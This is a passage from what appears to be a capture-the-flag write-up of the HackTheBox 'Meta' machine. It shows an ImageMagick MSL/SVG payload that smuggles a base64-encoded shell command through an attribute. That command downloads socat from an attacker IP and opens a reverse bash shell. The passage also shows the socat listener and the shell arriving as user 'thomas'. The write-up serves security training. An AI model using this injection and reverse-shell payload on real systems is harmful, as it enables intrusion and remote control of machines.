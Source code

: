 ```xml
<image authenticate='ff" `echo "d2dldCBodHRwOi8vMTAuMTAuMTQuMTkvc29jYXQgLU8gL3RtcC9zb2NhdDsgY2htb2QgK3ggL3RtcC9zb2NhdDsgL3RtcC9zb2NhdCBUQ1A6MTAuMTAuMTQuMTk6NTMgRVhFQzonL2Jpbi9iYXNoJyxwdHksc3RkZXJyLHNldHNpZCxzaWdpbnQsc2FuZQ==" | base64 -d | /bin/bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

```shell
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ nano /dev/shm/poc.svg
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cp /dev/shm/poc.svg /var/www/dev01.artcorp.htb/convert_images/
```

- Setup a socat TTY listener:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|17:22:00(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:53
2023/08/16 17:22:10 socat[206953] N opening character device "/dev/pts/1" for reading and writing
2023/08/16 17:22:10 socat[206953] N listening on AF=2 0.0.0.0:53
```

- Wait for a minute for the cronjob run:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|17:22:00(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:53
2023/08/16 17:22:10 socat[206953] N opening character device "/dev/pts/1" for reading and writing
2023/08/16 17:22:10 socat[206953] N listening on AF=2 0.0.0.0:53
                                                                2023/08/16 17:25:02 socat[206953] N accepting connection from AF=2 10.10.11.140:45882 on AF=2 10.10.14.19:53
                                                                 2023/08/16 17:25:02 socat[206953] N starting data transfer loop with FDs [5,5] and [7,7]
                                              thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ 
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ export TERM=xterm-256color                      
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ stty rows 22 columns 107
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ ^C
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ whoami; hostname; id; ip a
thomas
meta
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:2f:79 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.140/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
```
